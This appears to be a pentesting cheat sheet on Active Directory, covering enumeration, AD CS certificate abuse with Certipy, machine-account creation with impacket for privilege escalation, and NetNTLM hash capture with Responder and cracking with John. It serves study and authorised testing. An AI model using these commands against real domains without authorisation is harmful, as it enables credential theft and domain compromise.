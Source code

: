 ```yaml
---
title: Active Directory (AD) Pentesting
desc: Active Directory is a directory service developed by Microsoft for Windows domain networks.
tags: [Active, AD, Bloodhound, Certipy, Dig, Directory, LLMNR, NBT-NS, NTLM, Privilege, Windows, WPAD]
alts: []
render_with_liquid: false
---
```


## Investigation

- **Credentials**

    **[OSINT](./OSINT){:target="_blank"}** may help you to examine the credentials.

- **Find Domain Controllers**

    ```sh
    dig @<target-ip> <domain-name> any
    ```

- **Enumeration**

    **[Seatbelt](https://github.com/GhostPack/Seatbelt){:target="_blank"}**

<br />

## Basic Knowledge

1. **User Management**

    1. **Delegation**

        In Active Directory, the administrator delegate another user to manage users over an Organizational Unit (OU),  without the admin privileges.

        1. Setup

            1. Open "Active Directory Users and Computers".
            2. Right-click on the target OU, and click “Deligate Control…”. Then the new window will open.
            3. In the window, input username who you want to delegate the privilege that manage users.
            4. Select tasks to which the delegated user should manage.
            5. Click OK.

        2. Manage Users

            1. Logon as the delegated user.
            2. For instance, if you want to reset the john's password, execute the following command in PowerShell. Then input new password in prompt.

                ```powershell
                Set-ADAccountPassword john -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
                ```
            
            3. The first time John logs on after that, we want John to change his arbitrary password not the password you entered. So that to, execute the following command.

                ```powershell
                Set-ADUser -ChangePasswordAtLogon $true -Identity john -Verbose
                ```

            4. Now when John logs on he will be prompt to change a new password.


<br />

## Reveal Relationships

- **Use Bloodhound**

    [Bloodhound](https://github.com/BloodHoundAD/BloodHound){:target="_blank"} is an analyzing tool of Active Directory.

    ```sh
    # Start neo4j before starting Bloodhound
    neo4j console

    # Start Bloodhound
    bloodhound
    ```

<br />

## Active Directory Certificate Services (AD CS)

1. **Request Certification & Authentication**

    **[Certipy](https://github.com/ly4k/Certipy){:target="_blank"}** is a tool for enumerating and abusing of AD CS.

    ```sh
    # User Template
    certipy req 'vuln.local/username:password@vuln.com' -ca VULN-CA  -template User
    # Machine Template
    certipy req 'vuln.local/machine-name:machine-password@vuln.com' -ca VULN-CA -template Machine

    # After requesting it, use the output credential when authenticating
    certipy auth -pfx user.pfx
    certipy auth -pfx machine.pfx
    ```

2. **Add Your Computer to the Domain**

    Using **addcomputer ([impacket](https://github.com/SecureAuthCorp/impacket){:target="_blank"})**  
    It is usually used for AD CS (Active Directory Certificate Services) Privilege Escalation.

    ```sh
    python3 ./impacket/examples/addcomputer.py '<domain-name>/username:password' -method LDAPS -computer-name 'PC-NAME' -computer-pass 'MyPcPassword'
    # or
    python3 ./impacket/examples/addcomputer.py '<domain-name>/username:password@<hostname>' -method LDAPS -computer-name 'PC-NAME' -computer-pass 'MyPcPassword'
    ```

<br />

## Intercept NetNTLM Authentication

Start Responder to listen for any LLMNR, NBT-NS, WPAD requests.

```sh
sudo responder -I <interface-like-eth0>
```

Leave Responder running until receiving some requests.  
If you get NTLM hash, crack it in local machine.

```sh
echo -n '<copied-NTLM-hash>' > hash.txt
john --format=netntlmv2 --wordlist=wordlist.txt hash.txt
```

